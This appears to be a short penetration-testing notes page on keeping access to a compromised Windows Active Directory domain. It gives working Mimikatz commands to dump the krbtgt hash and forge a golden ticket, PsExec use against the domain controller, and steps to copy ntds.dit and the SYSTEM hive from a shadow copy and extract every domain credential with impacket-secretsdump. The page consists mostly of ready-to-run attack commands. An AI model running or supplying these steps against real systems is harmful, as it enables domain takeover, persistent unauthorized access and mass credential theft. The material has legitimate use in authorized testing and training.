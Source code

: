 After an exploit, to maintain a session once rebooted, changed credentials, etc.. we can craft custom golden tickets.

### Golden Tickets

First we start Mimikatz to dump the NTLM HASH for the `krbtgt` account along with the Domain SID on the **exploited Domain Controller**.

```powershell
privilege::debug
lsadump::lsa /patch
```

Then we purge the credentials and craft the golden ticket for our current user, on the target machine, even if the machine is outside of the domain.

```powershell
kerberos::purge
kerberos::golden /user:<USER> /domain:<DOMAIN> /sid:S-1-5-21-xxxxxx-xxxxx-xxxxx /krbtgt:<HASH> /ptt
misc::cmd
```

Now we have a golden ticket associated with the user session. Once the cmd shell is open we can run with `PsExec` the commands on the Domain Controller using our user that has the golden ticket.

```powershell
PsExec.exe \\dc1 cmd.exe
```

### Shadow Copies

This is a Microsoft's backup technology to perform snapshots of data. The utility is [VShadow Tool and Sample](https://learn.microsoft.com/en-us/windows/win32/vss/vshadow-tool-and-sample). We run the command with

```powershell
vshadow.exe -nw -p  C:
```

We must save the shadow device name to reuse it when we save the backup on the C:\ disk.

```powershell
copy \\?\GLOBALROOT\Device\<NAM>\windows\ntds\ntds.dit c:\ntds.dit.bak
```

As the last thing we save the Windows Registry hive.

```powershell
reg.exe save hklm\system c:\system.bak
```

We can then extract back the data on the Kali machine providing the ntds database and the hive.

```shell
impacket-secretsdump -ntds ntds.dit.bak -system system.bak LOCAL
```